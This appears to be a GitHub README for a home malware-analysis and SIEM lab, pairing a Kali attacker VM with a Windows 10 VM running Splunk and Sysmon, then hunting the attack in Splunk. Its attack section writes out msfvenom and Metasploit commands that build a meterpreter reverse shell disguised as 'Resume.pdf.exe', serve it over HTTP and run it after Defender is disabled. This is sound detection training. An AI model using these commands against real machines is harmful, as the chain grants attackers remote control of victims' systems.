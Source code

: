 🏗️ Quick Overview
Two VMs (Windows 10 + Kali Linux) connected via internal network for controlled malware analysis and SIEM investigation.
Network: 192.168.20.0/24 | Windows: 192.168.20.10 | Kali: 192.168.20.11

🔧 Network Configuration
The Windows machine will utilise the Default NAT setting prior to changing to an internal network to download Splunk enterprise, Sysmon, and download Olaf configuration for Sysmon.

Adapter 1: NAT (internet access)
Adapter 2: Internal Network "intnet"

Set Static IPs on Internal Network:
Windows: 192.168.20.10/24
Kali: 192.168.20.11/24
![image](https://github.com/user-attachments/assets/bfda68a0-3d79-4f02-92ff-57dfb3c2f7be)


🖥️ Windows 10 Setup
1. Install Splunk Enterprise

Download free license version
Install with defaults, access at http://localhost:8000

2. Install Sysmon
powershell# Download Sysmon + Olaf config from GitHub
.\sysmon64.exe -accepteula -i sysmonconfig.xml

4. Configure Splunk Data Input

Create index: endpoint

Head to your Inputs.conf file which will be found in your Splunk>etc>System>local> inputs.conf (If you don't see this file here, copy it over from your 'Default' file)

![image](https://github.com/user-attachments/assets/c63e8e12-651b-49f2-974d-96dbd72daa68)
Input this into your inputs.conf file

5. Create index endpoint
After establishing Splunk is installed, with sysmon added with olaf configuration, head to Splunk via localhost:8000 in Microsoft Edge > Settings > Indexes > New Index > In the Index name field enter "endpoint" and hit save.

6. Change Network Adapter Setting
You can now close and create a snapshot as a baseline, and change the network configuration in Virtualbox via settings > Internal network and ensure the name is the same name used for the Kali Linux machine.

7. Set a static IP Address
Change the network adapter settings and disable DHCP and configure the static IP address to the address we listed earlier. (192.168.20.10)

8. Disable Windows Defender
Turn off Real-time Protection (Settings > Update & Security > Windows Security)

9. Enable RDP
Settings > System > Remote Desktop > Enable


🐧 Kali Linux Setup
Network setup:
Edit connection > Wired connection 1 (Click the cog wheel) > IPv4 settings > Add address 192.168.20.11 - Netmask 24 > Add and then click save. 
To test you are in the same internal network, run the terminal in Linux and ping your Windows machine via the syntax - ping 192.168.20.10 

🎯 Attack Simulation
1. Reconnaissance
nmap -A 192.168.20.10 -Pn
Port 3389 (RDP) should be open

3. Create Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe

5. Start Listener
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.11
set lport 4444
exploit

7. Host Payload
bash# New terminal
python3 -m http.server 9999

8. Execute on Windows🖥️ 

Browse to 192.168.20.11:9999
Download and run Resume.pdf.exe
Verify meterpreter connection

9. 🐧Establish connection to Windows from Linux machine
Run shell in the mepterpreter to establish a connection to the Windows machine.
   ![image](https://github.com/user-attachments/assets/ad2933e0-fc72-4b32-b9c5-f6e321cb6f7c)

10. Run commands to create telemetry for SIEM
On the Linux machine run these three basic recon commands to 
net user
net localgroup
ipconfig

# 🔍 SOC Analysis in Splunk
Initial Detection
splunk
index=endpoint "Resume.pdf.exe"

Process Chain Analysis

splunk Get ProcessGuid from above, then:

index=endpoint <ProcessGuid>
| table _time,ParentImage,Image,CommandLine

Expected: Resume.pdf.exe → cmd.exe → net user/net localgroup/ipconfig

Threat Hunting Query

splunkindex=endpoint EventCode=1 
| where match(Image, "\\.pdf\\.exe$")
| table _time, Computer, Image, CommandLine

![image](https://github.com/user-attachments/assets/60aa3e0b-979c-40d5-8413-01a37a03eb3b)


✅ Validation

Network: Both VMs can ping each other

Splunk: Sysmon events flowing to endpoint index

Attack: Meterpreter session established

Detection: Malware execution visible in Splunk


⚠️ Lab Safety

Isolated network only - no production access

Take VM snapshots before malware execution

Re-enable Windows Defender after testing


Setup time: ~2 hours | Requires: VirtualBox, Windows 10, Kali Linux VMs

